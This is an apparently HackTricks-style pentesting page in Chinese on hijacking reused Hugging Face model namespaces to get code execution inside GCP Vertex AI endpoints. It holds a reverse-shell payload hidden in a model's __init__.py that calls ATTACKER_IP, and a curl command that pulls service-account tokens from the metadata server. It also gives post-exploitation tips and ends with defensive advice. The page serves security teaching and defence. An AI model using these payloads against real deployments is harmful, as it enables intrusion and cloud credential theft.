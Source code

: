 # GCP - Vertex AI Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## 场景

- Vertex AI Model Garden 允许直接部署许多 Hugging Face (HF) 模型。
- HF 模型标识符为 Author/ModelName。如果 HF 上的作者/组织被删除，相同的作者名可以被任何人重新注册。攻击者随后可以在遗留路径创建具有相同 ModelName 的 repo。
- 那些仅按名称拉取（没有 pinning/integrity）的 pipelines、SDKs 或 cloud catalogs 会拉取攻击者控制的 repo。当模型被部署时，该 repo 中的 loader 代码可能在 Vertex AI endpoint 容器内执行，从而以 endpoint 的权限获得 RCE。

HF 上两种常见的接管情况：
- 所有权删除：旧路径返回 404，直到有人重新注册该作者并发布相同的 ModelName。
- 所有权转移：HF 会对旧的 Author/ModelName 发出 307 重定向到新作者。如果旧作者随后被删除并被攻击者重新注册，重定向链将被破坏，攻击者的 repo 将在遗留路径提供服务。

## 识别可重用命名空间 (HF)

- 老作者被删除：作者页面返回 404；模型路径可能返回 404，直到被接管。
- 被转移的模型：在旧作者存在时旧模型路径会向新所有者发出 307。如果旧作者随后被删除并被重新注册，遗留路径将解析到攻击者的 repo。

使用 curl 的快速检查：
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>
# 200 = exists, 404 = deleted/available

# Check old model path behavior
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 = redirect to new owner (transfer case)
# 404 = missing (deletion case) until someone re-registers
```
## 针对 Vertex AI 的端到端攻击流程

1) 发现 Model Garden 列为可部署的可重用模型命名空间：
- 在 Vertex AI Model Garden 中查找仍显示为 “verified deployable” 的 HF 模型。
- 在 HF 上核实原作者是否已被删除，或模型是否被转移且旧作者随后被移除。

2) 在 HF 上重新注册已删除的作者并重建相同的 ModelName。

3) 发布恶意 repo。包含在模型加载时执行的代码。常在 HF 模型加载期间执行的示例：
- 在仓库的 __init__.py 中的副作用
- 被 config/auto_map 引用的自定义 modeling_*.py 或处理代码
- 在 Transformers pipelines 中需要 trust_remote_code=True 的代码路径

4) 遗留 Author/ModelName 的 Vertex AI 部署现在会拉取攻击者的 repo。加载器在 Vertex AI endpoint 容器内执行。

5) Payload 在 endpoint 环境中建立访问（RCE），并使用该 endpoint 的权限。

示例 payload 片段，在导入时执行（仅用于演示）：
```python
# Place in __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # Or python -c exec ...

if os.environ.get("VTX_AI","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
注意事项
- 实际的加载器各不相同。许多 Vertex AI HF 集成会 clone 并导入模型配置中引用的 repo 模块（例如 auto_map），这可能触发 code execution。某些用法需要 trust_remote_code=True。
- 该 endpoint 通常在作用域受限的独立容器中运行，但它是获取数据访问和在 GCP 中横向移动的一个有效初始立足点。

## Post-Exploitation Tips (Vertex AI Endpoint)

一旦 code 在 endpoint 容器内运行，考虑：
- 枚举环境变量和 metadata 以寻找凭证/令牌
- 访问附加的存储或已挂载的 model artifacts
- 通过 service account 身份与 Google APIs 交互（Document AI, Storage, Pub/Sub 等）
- 在 model artifact 中保持持久性（如果平台会重新拉取 repo）

如果可访问，枚举 instance metadata（取决于容器）：
```bash
curl -H "Metadata-Flavor: Google" \
http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```
## 面向 Vertex AI 用户的防御建议

- 在 HF loaders 中按 commit 固定模型，以防止静默替换：
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- 将经过审核的 HF 模型镜像到受信任的内部 artifact store/registry，并从那里部署。
- 持续扫描代码库和配置以查找被硬编码的 Author/ModelName（已删除/已转移）；将其更新为新命名空间或按 commit 固定。
- 在 Model Garden 中，部署前验证模型来源和作者是否存在。

## Recognition Heuristics (HTTP)

- Deleted author: author page 404; legacy model path 404 until takeover.
- Transferred model: legacy path 307 to new author while old author exists; if old author later deleted and re-registered, legacy path serves attacker content.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## 交叉引用

- 参见更广泛的方法论和供应链说明：

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## 参考资料

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
